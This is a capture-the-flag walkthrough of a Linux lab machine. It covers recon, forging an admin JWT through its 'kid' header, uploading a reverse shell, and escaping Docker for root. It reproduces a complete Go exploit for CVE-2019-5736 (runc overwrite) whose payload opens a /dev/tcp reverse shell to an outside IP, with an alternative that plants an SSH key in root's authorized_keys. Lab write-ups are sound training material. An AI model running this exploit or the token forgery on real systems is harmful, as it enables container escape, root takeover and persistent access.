

The notebook is a Linux machine. The IP of the box is 10.10.10.230.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/thenotebook 10.10.10.230`




And I found two services:
- *ssh*
- *webserver nginx*

On webserver there is webpage




So i started enumeration with gobuster

>gobuster dir -u 10.10.10.230 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

and i found admin path



On this page i can register a new user on `/register`


after login i used burp for intercept the request and got



and used https://jwt.io for decode the JWT



This jwt contains in the header the `kid` field which contains a private key on the
remote server, and in the payload it contains `admin_cap` which presumably indicates
whether a user is admin or not.

So i need to change the private key with a my own key and the `admin_cap` value to 0.



finally add the new jwt in the cookie



Now i can go on `/admin` 



and i can upload a file so upload a reverse shell



and got shell as `www-data`



in the `/var/backups/` there is a backup of home so i copied this on my machine



and found a ssh for the user `noah`

so i connect through ssh as `noah` and take the user flag




# Root

I launch `sudo -l` and i get



searching for docker exec  found the [CVE-2019-5736](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) and a [exploit](https://github.com/Frichetten/CVE-2019-5736-PoC).

(it is possible to access on docker container in this way `sudo /usr/bin/docker exec -it webapp-dev01 bash`)


```go

package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n  bash -i >& /dev/tcp/10.10.14.114/8080 0>&1"
//var payload = "#!/bin/bash \n echo \"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDciHer8SB1dZJ1++0niNcqXVB2kpidT0G/U1Z7/4r90Jt1nWEsSigXok6ku7ebMIinRAFvTZBTHO1GjQMwZ+AADPNbQ5QCdBUerJftIvredI3XZeSmnBBj92h79WCmKLaAFRDqYwodZK5wjq3WSvH3wU60py7HtuqnPzq+V5Z/um/I8aNWK1uKBm8feeh8i3OcOB7MvfjTjGxaGkfFHrxXSXSmQrrdQplEeuolHl9DWSXdCTjB4jiBZhqFwJ1NNasyMxehbU2bpix2ToQPibLFCsNtiA0sCSbcgr3PD/5f8IBvy2BT+lw25UGZ3BgkxLWkEBoPYFAQYjDLFhcoxs2si8LmWQFVQy58AX8Ce1zsLS2s949keuR/dc9MJTtVD2Izysk2zr2TQSlRUCTddWjEL1XMjWT/dH96QgKc8MgCpHB0cSTeaoAmEXchGnf9QRvVA7/bdq3jPty8w+AO0aAzf+ok2Bq12JJdxRegr/LHr1q/IStCRDGVUlOGRlV4fv8= user@parrot-virtual\" >> root/.ssh/authorized_keys"
func main() {
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}

```

Now need change the payload and upload on docker of the remote machine. Finally run the executable on docker container and execute `exec` from host machine for run the payload.



Now i got revshell and can grab the root flag





